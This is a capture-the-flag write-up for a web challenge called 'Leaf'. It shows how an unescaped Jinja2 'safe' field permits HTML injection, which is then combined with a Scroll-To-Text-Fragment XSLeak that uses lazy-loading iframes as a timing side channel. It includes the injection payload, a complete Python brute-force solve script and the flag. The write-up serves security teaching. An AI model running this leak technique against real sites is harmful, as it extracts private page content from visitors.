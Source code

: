 ```yaml
---
title: Leaf
author: Chara
description: I always think leaf ~= tea. Please allow remote to have some time to boot the browser.
categories:
    - web
year: 2025
challengefiles: leaf.zip
published: "2025-06-01"
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** Small website reflecting user input via URL query parameter
    **- Key Discoveries:** Due to **Jinja2** `safe` attribute you basically have **HTML** injection
    **- Vulnerability:** The website is vulnerable to a special form of **XSLeak**: **STTF** - **Scroll-To-Text-Fragment**
    **- Exploitation:** By injecting lazy loading iframes, you can measure the time it takes for the bot to load the website

# 1. Introduction<a id="introduction"></a>
The challenge setup is very minimalistic. You only have the index page reflecting user input via the `leaf` URL parameter, but in a very special way:

![landing-page](ctf/writeups/smileyctf/leaf/landing_page.png "landing-page")

For testing purposes, you can also create a `flag` cookie, which is also reflected by the website. As you can see, the **JavaScript** is transforming every text in the **HTML** tags with the `leaf` class into a text consisting of `span` tags, separating each character from each other. But it doesn't affect the visuals of the text. Moreover, there is a `/bot` endpoint on which you can send your `leaf` to a bot that will visit it.

# 2. Reconnaissance<a id="reconnaissance"></a>
Having a closer look at the source code of the challenge reveals `<div class="leaf">{{ leaves | safe}}</div>`. The `safe` keyword tells the underlying templating engine, **Jinja2**, that this content is safe and there is no need to escape it. This is very interesting, as we control everything that goes into this `leaf` tag. The applied **CSP** is very strict with `default-src 'none'; script-src 'nonce-{nonce}'; style-src 'nonce-{nonce}'; base-uri 'none'; frame-ancestors 'none';`. We can't even frame the website and **CSS** and **JavaScript** are only permitted with the correct nonce, which is generated safely. So basically, this challenge is all about putting the correct payload into the `leaf` URL parameter. In a comment, there is a hint that the flag starts with `d0nt`.

# 3. Vulnerability Description<a id="vulnerability description"></a>
As already mentioned, due to the `safe` keyword, we have **HTML** injection via the `leaf` URL parameter. But we can't execute any **JavaScript**, so this has to be some different form of XSS.
This is where we get to **XSLeak**, a special form of a side channel with which you can infer information by observing small information the website is leaking, like status codes, errors, timing, etc. There is a great [resource](https://xsleaks.dev/) for these kinds of attacks.
The `span` elements strongly hint that this is all about [STTF XSLeak](https://xsleaks.dev/docs/attacks/experiments/scroll-to-text-fragment/). Usually [Scroll-To-Text-Fragment](https://github.com/WICG/scroll-to-text-fragment) is used to automatically scroll to some specific part of a website matching the given URL fragment. This is, for example, used by search engines, linking directly to the part of the resource interesting to the user. The browser will scroll to this part after the website finishes loading. The generic syntax for **STTF** is `:~:text=[prefix-,]textStart[,textEnd][,-suffix]`. So, applied to our web challenge, you can do something like `/?leaf=testleaf#:~:text=testleaf`. In most of the challenges which are about **STTF** vulnerabilities, the website applies these `span` elements to the content, so it is possible to brute force the flag char by char. Without this modification, you could only match whole words and not parts of the text, making a char by char brute force attack impossible.
Now this is where it gets interesting. We can make the bot scroll around on the website. Either to a part of the flag or to other content on the page. So we need to find a way to distinguish correct characters from wrong ones. This is where `lazy loading iframes` come into play. The [lazy loading](https://developer.mozilla.org/de/docs/Web/Performance/Guides/Lazy_loading) attribute makes elements only load their source when they get near the viewport of your browser. Unfortunately, we can't specify a source for the iframes because of the **CSP** having `default-src 'none'`. However, iframes still try to load the source specified by their `src` attribute, which will eventually be blocked by the **CSP**. Having a lot of these iframes will make the website lag for a short time. Thanks to the `implicitly_wait` in the source code of the bot, we can just measure the time it takes for the bot to respond to our request after visiting our `leaf`.

# 4. Exploitation<a id="exploitation"></a>
So, at first, we need to make sure that we can inject arbitrary **HTML** into the website. The **JavaScript** applying the `span` tags destroys our payload, so we need to escape out of the `leaf` element by starting with a closing `</div>`. After that, we need to make sure the injected iframes are not right away in the viewport. We can just do this with some `</br>` tags, moving the iframes to a lower part of the website. At the bottom of the page, we just spam iframes as much as we can. We just have to be careful not to trigger a `414 URI Too Long`.
Moreover, we need to make the iframes small enough by applying `width=0 height=0` so all of them are present in the viewport and thus lazy load their source when being scrolled to.
But there is still one problem: **STTF** is case insensitive, which means you get the same behaviour with `/?leaf=testleaf#:~:text=testleaf` as with `/?leaf=testleaf#:~:text=testLEAF`. For this reason, we just assume there are only lowercase characters in the flag.
Between the iframes, we place a special string `FLAG_NOT_FOUND` which is scrolled to when the guessed character is wrong. So, for now, our payload is as follows:

```sql
</div>A</br>A</br>...</br>A<iframe src=x loading=lazy width=0 height=0></iframe>...<iframe src=x loading=lazy width=0 height=0></iframe>FLAG_NOT_FOUND<iframe src=x loading=lazy width=0 height=0></iframe>...<iframe src=x loading=lazy width=0 height=0></iframe>#:~:text=d0nta&text=FLAG_NOT_FOUND
```

We can enhance this payload even more. Instead of going through char by char, we can group the characters and just do a binary search. One of the characteristics of **STTF** is that only the leftmost successfully matched directive will be scrolled to. So we can add even more `text` directives to our query, resulting in something like:

```sql
#:~:text=d0nta&text=d0ntb&text=d0ntc...text=d0nt9&text=FLAG_NOT_FOUND
```

Now that we have our payload we just need to measure the time it takes for the bot to respond to our request with the first half of the characters and for the second half. The half with the lower response time is the one containing the correct next flag character, so we keep going like this recursively until only one character is left. Then just repeat this process.
You just need to be careful as the flag format `.;,;.{` and `}` were stripped out of the flag, we can't wait until we hit `}`. As a termination condition, we can just calculate the difference between the two response times. If the difference is not big enough or both response times exceed a certain time limit, we have already got the full flag.

# 5. Mitigation<a id="mitigation"></a>
In general, preventing XSLeaks is a pretty tough challenge. But in the first place this exploit could have been completely prevented by not applying the **Jinja2** `safe` keyword to untrusted input.

# 6. Solve script<a id="solve script"></a>
```python
# .;,;.{d0ntul0v3th1sf34tur3}

import requests, time, base64
from statistics import mean
import string
import urllib3

BASE_URL = "http://localhost:8800"
FLAG = 'test'
BASE_URL = "https://web-leaf-chx8mbzz.smiley.cat"
FLAG = 'd0nt'

BOT_ENDPOINT = f"{BASE_URL}/bot"

FLAG_CHARS = string.ascii_lowercase +  string.digits + '{}_.-'
TRIES = 2
TIMEOUT = 5

def generate_br_string(length):
    return '</br>'.join('A' for _ in range(length))

def measure_latency(payload):
    b64 = base64.b64encode(payload.encode()).decode()
    params = {'leaf': b64}
    times = []
    for _ in range(TRIES):
        try:
            t0 = time.time()
            r = requests.get(BOT_ENDPOINT, params=params, timeout=TIMEOUT, allow_redirects=False)
            t1 = time.time()
            dif = t1 - t0
            times.append(dif)
        except (TimeoutError, urllib3.exceptions.ReadTimeoutError, requests.exceptions.ReadTimeout):
            times.append(TIMEOUT)
    return mean(times)

def generate_payload(candidates):
    global FLAG

    lazy_iframe = """<iframe src=x loading=lazy width=0 height=0></iframe>"""
    candidates_string = "FLAG_NOT_FOUND"
    frag = "#:~:text=" + "&text=".join(f"{FLAG}{c}" for c in candidates) + "&text=FLAG_NOT_FOUND"
    num_br = 200
    iframe_num = 400
    payload = '</div>' + generate_br_string(num_br) + (lazy_iframe * iframe_num) + candidates_string + (lazy_iframe * iframe_num) + frag
    mean_time = measure_latency(payload)
    print(f"\t\t[-] Mean time: {mean_time:.3f}s")
    return mean_time

last_min_mean_time = 0
while last_min_mean_time < 2.9:
    print(f"[*] Current flag: {FLAG}")
    search = FLAG_CHARS
    while len(search) > 1:
        first = search[::2]
        second = search[1::2]
        print(f"\t\t[-] Trying first half  ({len(first)}): {first}")
        print(f"\t\t[-] Trying second half ({len(second)}): {second}")

        mean_time_first = generate_payload(list(first))
        mean_time_second = generate_payload(list(second))

        if mean_time_first < mean_time_second:
            search = first
            print("\t[1] Found character in first half")
        else:
            search = second
            print("\t[2] Found character in second half")
        last_min_mean_time = min(mean_time_first, mean_time_second)

    FLAG += search[0]

print(f"[*] Final flag: .;,;.{{{FLAG}}}")

```

# 7. Flag<a id="flag"></a>
.;,;.{d0ntul0v3th1sf34tur3}

